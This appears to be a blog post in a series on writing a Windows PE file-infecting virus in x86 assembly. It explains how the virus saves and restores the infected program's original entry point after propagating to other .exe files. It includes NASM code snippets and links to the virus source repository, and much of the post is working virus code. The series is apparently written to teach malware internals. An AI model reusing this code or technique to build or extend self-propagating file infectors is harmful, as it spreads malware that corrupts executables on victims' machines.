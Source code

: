 The [last VeXation post][LastPost] laid the ground work for reliably calling exported `kernel32.dll` functions from the virus code which made it straight-forward to use `GetModuleHandleA` to find the executable's base address. By combining the base address with the saved original entry RVA the virus code has an absolute address to `jmp` to so the infected program can start to run normally.

[Loader]: https://en.wikipedia.org/wiki/Loader_(computing)
[GetModuleHandleA]: https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea

# Complete Assembly

To start working on a solution to the entry point problem I used the [`apisafejector` project code][apisafejector] as a base, copying it into a new directory called [`epjector`][epjector] (short for _"entry-point injector"_ I guess?) and renaming files/includes accordingly. The majority of my changes are in [`epjector.asm`][epjector.asm].

To begin with I added two new variables to the `_data` label at [the end of the virus code][DataSection] to save entry point RVAs. `DD` is "define double word" and results in a 4 byte variable, matching the size of the `DWORD AddressOfEntryPoint` PE header field.

```nasm
; Original entry-point of to-be infected .exe (or null in generation 0)
originalEntryPoint  DD 0

; Address we return control flow to after infecting (copy of original entry
; point)
savedEntryPoint     DD 0
```

Next I updated the [`@@analyzepe` code][AnalyzePE] to copy the `AddressOfEntryPoint` value of the PE file being considered for infection into the `originalEntryPoint` variable before it is overwritten (respecting the delta offset in `ebp` of course).

```nasm
; At this point we've decided we have found a valid i386 PE and we can
; analyze it for infection.
@@analyzepe:
  ; Copy the original entrypoint address somewhere safe
  mov ecx, (IMAGE_NT_HEADERS [eax]).OptionalHeader.AddressOfEntryPoint
  mov [ebp + originalEntryPoint], ecx
```

To populate `savedEntryPoint` I added some new logic at the very [start of the virus code][SaveOEP] immediately after calculating the delta offset:

```nasm
; If this is not generation 0 then the originalEntryPoint variable will have
; been set when the currently executing PE was infected. We need to stash that
; somewhere we can JMP to later. We'll be writing over originalEntryPoint when
; we find a target to infect and propagate another generation.
@@saveoep:
    mov eax, [ebp + originalEntryPoint]
    mov [ebp + savedEntryPoint], eax
```

The last task is refactoring the code labelled [`findfirst`][FindFirst] and [`findnext`][FindNext] to find the correct absolute address to `jmp` to using the `savedEntryPoint` RVA when there are no more `.exe`s to infect.


[Start]: /welcome
[LastPost]: /kernel32-dll-exports
[apisafejector]: https://github.com/cpu/vexation/tree/master/apisafejector
[minijector]: https://github.com/cpu/vexation/tree/master/minijector
[pijector]: https://github.com/cpu/vexation/tree/master/pijector
[RVAChange]: https://github.com/cpu/vexation/blob/480676904b8fcc39ebeed19846b28491f4e55fa2/apisafejector/apisafejector.asm#L422-L439
[PEPeering]: https://docs.microsoft.com/en-us/previous-versions/ms809762(v=msdn.10)#the-pe-header
[CleanCalcTDump]: https://github.com/cpu/vexation/blob/480676904b8fcc39ebeed19846b28491f4e55fa2/apisafejector/tdump.clean.calc.exe.txt#L41
[InfectedCalcTDump]: https://github.com/cpu/vexation/blob/480676904b8fcc39ebeed19846b28491f4e55fa2/apisafejector/tdump.infected.calc.exe.txt#L41
[DeltaOffsets]: /delta-offset
[epjector]: https://github.com/cpu/vexation/tree/master/epjector
[epjector.asm]: https://github.com/cpu/vexation/tree/master/epjector/epjector.asm
[DataSection]: https://github.com/cpu/vexation/blob/ef1c6bc24bcd4951db7bc784c4c672f6cd788981/epjector/epjector.asm#L605-L661
[AnalyzePE]: https://github.com/cpu/vexation/blob/ef1c6bc24bcd4951db7bc784c4c672f6cd788981/epjector/epjector.asm#L322-L327
[SaveOEP]: https://github.com/cpu/vexation/blob/ef1c6bc24bcd4951db7bc784c4c672f6cd788981/epjector/epjector.asm#L47-L53
[FindFirst]: https://github.com/cpu/vexation/blob/ef1c6bc24bcd4951db7bc784c4c672f6cd788981/epjector/epjector.asm#L192-L209
[FindNext]: https://github.com/cpu/vexation/blob/ef1c6bc24bcd4951db7bc784c4c672f6cd788981/epjector/epjector.asm#L224-L240
[macros.inc]: https://github.com/cpu/vexation/blob/ef1c6bc24bcd4951db7bc784c4c672f6cd788981/epjector/macros.inc#L82-L106
[twitter]: https://twitter.com/cpu
[email]: mailto://daniel@binaryparadox.net